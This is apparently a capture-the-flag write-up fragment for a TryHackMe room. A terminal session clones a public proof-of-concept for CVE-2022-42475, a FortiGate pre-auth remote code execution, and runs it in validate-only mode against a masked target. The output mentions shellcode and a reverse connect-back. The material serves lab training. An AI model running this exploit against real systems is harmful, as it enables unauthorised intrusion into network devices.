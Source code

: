 <br>
<br>

```bash
:~/VoidExecution# python3 -m venv rose
```

```bash
:~/VoidExecution# source rose/bin/activate
```

```bash
(rose) ...:~/VoidExecution# pip3 install Crypto
```

```bash
:~/VoidExecution# pip3 install pycryptodome
```

```bash
(rose) ...:~/VoidExecution# git clone https://github.com/0xhaggis/CVE-2022-42475
```

```bash
(rose) ...:~/VoidExecution# cd CVE-2022-42475
```

```bash
(rose) ...:~/VoidExecution/CVE-2022-42475# ls
CVE-2022-42475.py  exploit_data.json  foxrop.py  README.md  requirements.txt  shellcode.o  shellcode.s
```

```bash
:~/VoidExecution/CVE-2022-42475# ./CVE-2022-42475.py -t xx.xxx.xx.xxx -p 9008  -v

    --[ CVE-2022-42475: FortiGate Remote Pre-auth RCE ]--
    --[ Bishop Fox Cosmos Team X                      ]--
    
[+] Running in validate-only mode. No RCE.
[+] Using cached shellcode. Edit ./CVE-2022-42475.py (look for 'shellcode.s') to force refresh.
[+] Configured for connect-back to 127.0.0.1:443
[>] Testing to see if target is vulnerable (may take 10 seconds)
[>] An unexpected response (36 bytes) was recieved:
----- BEGIN RESPONSE -----

Send to void execution: 

voided!


----- END RESPONSE -----
[!] An error occurred testing 'xx.xxx.xx.xxx:9008' for the vulnerability.
[!] Is this even a FortiGate?
```

<br>
<h2>Script</h2>
<p>by <a href="https://tryhackme.com/room/hfb1voidexecution">here</a>.</p>
